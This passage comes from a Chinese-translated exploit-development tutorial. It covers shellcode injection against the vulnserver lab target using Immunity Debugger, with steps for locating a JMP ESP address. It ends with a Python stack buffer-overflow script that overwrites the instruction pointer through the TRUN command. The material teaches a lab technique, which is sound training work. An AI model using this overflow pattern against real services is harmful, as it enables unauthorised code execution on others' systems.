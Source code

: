 # 开发-第 2 部分

在这一章中，我们将继续我们关于开发的主题。首先，我们将继续并通过注入外壳代码来完成前面的示例。然后，我们将讨论一种用于避免 NX 保护机制的新技术（NX 将在最后一章中解释）。

以下是我们将在本章中介绍的主题：

*   注入外壳代码
*   面向返回的编程
*   结构化异常处理程序

# 注入外壳代码

现在，让我们继续上一章的示例。在我们控制了指令指针之后，我们需要的是注入一个外壳代码并重定向指令指针指向它。

为了实现这一点，我们需要为外壳代码找到一个归宿。事实上，这很容易；它只涉及跳转到堆栈。我们现在需要的是找到指示：

1.  启动 vulnserver，然后以管理员身份启动免疫调试器，然后从“文件”菜单中，附加 vulnserver：

![](../images/00311.jpeg)

2.  点击运行程序图标，然后右键单击并选择搜索；然后，选择所有模块中的所有命令以搜索应用程序本身或任何相关库中的任何指令：

![](../images/00312.jpeg)

3.  然后我们需要做的是跳转到堆栈来执行外壳代码；那么，让我们搜索`JMP ESP`指令并点击 Find：

![](../images/00313.jpeg)

4.  让我们从`kernel32.dll 7DD93132`复制`JMP ESP`的地址，然后在免疫调试器中再次运行 vulnserver，并点击运行程序图标。

您可以使用任何库，而不仅仅是`kernel32.dll`。但是，如果您使用系统的库，例如`kernel32.dll`，则由于 ASLR 机制（将在上一章中解释），每次 Windows 启动时，地址都会更改；但是，如果使用与应用程序相关而与系统无关的库，则地址不会更改。

5.  然后，从攻击机器编辑我们的漏洞如下：

```
#!/usr/bin/python
import socket

server = '172.16.89.131'
sport = 9999
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((server, sport))
print s.recv(1024)
buffer =''
buffer+= 'A'*2006
buffer += '\x32\x31\xd9\x7d'
buffer+= 'C'*(5000-2006-4)
s.send(('TRUN .' + buffer + '\r\n'))
print s.recv(1024)
s.send('EXIT\r\n') 
print s.recv(1024)
s.close()
```
